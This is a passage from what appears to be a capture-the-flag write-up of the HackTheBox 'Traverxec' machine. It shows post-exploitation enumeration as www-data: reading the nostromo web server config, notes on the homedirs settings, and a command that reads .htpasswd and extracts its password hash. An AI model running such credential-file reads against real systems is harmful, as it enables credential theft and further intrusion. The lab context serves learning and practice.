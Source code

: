 	drwxr-xr-x  2 root     daemon 4096 Oct 27  2019 conf
	drwxr-xr-x  6 root     daemon 4096 Oct 25  2019 htdocs
	drwxr-xr-x  2 root     daemon 4096 Oct 25  2019 icons
	drwxr-xr-x  2 www-data daemon 4096 Sep 24 12:57 logs
	```
	- `conf` - contains `nostromos` configurations
3. View `conf/nhttpd.conf`
	```
	www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf
	# MAIN [MANDATORY]
	
	servername              traverxec.htb
	serverlisten            *
	serveradmin             david@traverxec.htb
	serverroot              /var/nostromo
	servermimes             conf/mimes
	docroot                 /var/nostromo/htdocs
	docindex                index.html
	
	# LOGS [OPTIONAL]
	
	logpid                  logs/nhttpd.pid
	
	# SETUID [RECOMMENDED]
	
	user                    www-data
	
	# BASIC AUTHENTICATION [OPTIONAL]
	
	htaccess                .htaccess
	htpasswd                /var/nostromo/conf/.htpasswd
	
	# ALIASES [OPTIONAL]
	
	/icons                  /var/nostromo/icons
	
	# HOMEDIRS [OPTIONAL]
	
	homedirs                /home
	homedirs_public         public_www
	```
	- `/var/nostromo/conf/.htpasswd`
		>  Contains basic authentication credentials
		{: .prompt-info }
	- `homedirs: /home`
		>  When `homedirs` is defined, the public can access the home directory of users on the system
		>  Proceed to `http://example.com/~<Name Of User>/` to access the home directory of the specified user 
		{: .prompt-info }
	- `homedirs_public: public_www`
		>  `public_www` is a directory that exists in the user's directory
		>   When `homedirs_public` is defined, the public can only access `public_www` directory, instead of the entire home directory
		{: .prompt-info }
	- [Source](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=NHTTPD#BASIC_AUTHENTICATION)
4. Extract Hash in `.htpasswd`
	```
	www-data@traverxec:/var/nostromo/conf$ cat /var/nostromo/conf/.htpasswd | cut -d ":" -f2
	$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/